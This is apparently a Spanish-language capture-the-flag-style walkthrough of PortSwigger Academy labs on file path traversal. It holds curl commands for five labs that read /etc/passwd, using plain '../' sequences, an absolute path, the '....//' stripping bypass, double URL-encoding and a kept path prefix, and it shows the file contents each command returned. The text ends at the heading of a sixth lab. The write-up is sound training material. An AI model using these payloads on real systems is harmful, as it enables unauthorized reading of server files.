


# Directory Traversal - PortSwigger

Todos los laboratorios posteriormente expuestos los puedes encontrar para resolverlos en la academia de PortSwigger.

[https://portswigger.net/web-security/file-path-traversal](https://portswigger.net/web-security/file-path-traversal)

## Índice


## 1. Lab: File path traversal, simple case

Ingresamos al laboratorio y revisando el codigo fuente encontramos un enlace interesante.

```html

```

Entonces, sabemos de la existencia de un recurso, entonces la url sería la siguiente:

```bash
https://acfc1fb41f9fd4df808cb510000f0095.web-security-academy.net/image?filename=15.jpg
```

Y al acceder nos encontramos con lo siguiente:



Ahora lo que haremos será cambiar la parte donde dice **15.jpg** por nuestro fichero **/etc/passwd**.



Como vemos no nos muestra el contenido de manera directa, así que lo que haremos por comando usando **curl**.

```bash
└──╼ $curl https://acfc1fb41f9fd4df808cb510000f0095.web-security-academy.net/image?filename=../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
....
```

Y si vamos a la pagina del laboratio vemos que ya la tenemos resuelta :D


## 2. Lab: File path traversal, traversal sequences blocked with absolute path bypass

Revisando el codigo fuente encontramos lo siguiente:

```html

```

Por como resolvimos el ejemplo anterior vemos que podemos obtener  el fichero en la siguiente url:

```bash
https://ac041fee1e13e3c0801b0bab000c00e2.web-security-academy.net/image?filename=64.jpg
```

Lo que haremos será hacer la consulta por **curl** del fichero **../../../etc/passwd**, pero obtenemos el siguiente error:

```bash
└──╼ $curl 'https://ac041fee1e13e3c0801b0bab000c00e2.web-security-academy.net/image?filename=../../../etc/passwd'
"No such file"
```

Al parecer existe alguna seguridad con respecto al Directory traversal, y lo que hace puede que sea filtrar por la cadena **../** , lo que podemos hacer es usar una ruta absoluta como la siguiente.

```bash
└──╼ $curl 'https://ac041fee1e13e3c0801b0bab000c00e2.web-security-academy.net/image?filename=/etc/passwd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
.....
```

## 3. Lab: File path traversal, traversal sequences stripped non-recursively

Vamos mas al grano, y vamos a probar de una vez el enlace de las imagenes con el fichero **/etc/passwd**.

```bash
https://ace61faf1e31e3fe80d5108c00bf0069.web-security-academy.net/image?filename=71.jpg
```

```bash
└──╼ $curl https://ace61faf1e31e3fe80d5108c00bf0069.web-security-academy.net/image?filename=/etc/passwd
"No such file"

└──╼ $curl https://ace61faf1e31e3fe80d5108c00bf0069.web-security-academy.net/image?filename=../../etc/passwd
"No such file"
```

Podemos sospechar lo mismo que en el nivel anterior, la consulta elimina la cadena **../** por lo cual, lo que haremos será burlar esto de una manera algo ingeniosa:

```bash
#El sitio eliminará la cadena ../ pero, al hacer eso juntará las cadenas .. y / que crearán otro ../
...// -> ..(../)/ -> ../
```

Entonces ahora pogramos el payload con el comando **curl**.

```bash
└──╼ $curl "https://ace61faf1e31e3fe80d5108c00bf0069.web-security-academy.net/image?filename=....//....//....//etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
....
```

## 4. Lab: File path traversal, traversal sequences stripped with superfluous URL-decode

```bash
https://acaa1f311fcad91f8028226d004e00b0.web-security-academy.net/image?filename=38.jpg
```

Verificamos si el metodo a usar del laboratorio anterior es suficiente.

```bash
└──╼ $curl 'https://acaa1f311fcad91f8028226d004e00b0.web-security-academy.net/image?filename=....//....//....//etc/passwd'
"No such file"
```

Como vemos no es posible, entonces intentaremos codificando el caracter **/** y que en urlenconde sería igual a **%2F**.

```bash
└──╼ $curl 'https://acaa1f311fcad91f8028226d004e00b0.web-security-academy.net/image?filename=..%2F..%2F..%2Fetc%2Fpasswd'
"No such file"
```

Como podemos ver, tampoco funciona, así que buscaremos otras codificaciones posibles para **/**. Y por ahí nos topamos que se puede encodear con la siguiente cadena **%252f**.

```bash
└──╼ $curl 'https://acaa1f311fcad91f8028226d004e00b0.web-security-academy.net/image?filename=..%252f..%252f..%252fetc%252fpasswd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
....
```

## 5. Lab: File path traversal, validation of start of path

```bash
https://acf31f4d1e13f43680eae142000a009b.web-security-academy.net/image?filename=/var/www/images/41.jpg
```

Verificamos si el metodo a usar del laboratorio anterior es suficiente.

```bash
└──╼ $curl 'https://acf31f4d1e13f43680eae142000a009b.web-security-academy.net/image?filename=..%252f..%252f..%252fetc%252fpasswd'
"Missing parameter 'filename'"
```

Al parecer como vemos en la url de la imagen, **/var/www/images/41.jpg**, sigue un parametro de ruta inicial **/var/www/images/**, lo que haremos será dejarlo así pero acontinuacion agregar retrocesos de directorios **../** hasta lograr llegar a la raiz y agregarle el **/etc/passwd**.

```bash
└──╼ $curl 'https://acf31f4d1e13f43680eae142000a009b.web-security-academy.net/image?filename=/var/www/images/../../../etc/passwd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
....
```

## 6. Lab: File path traversal, validation of file extension with null byte bypass

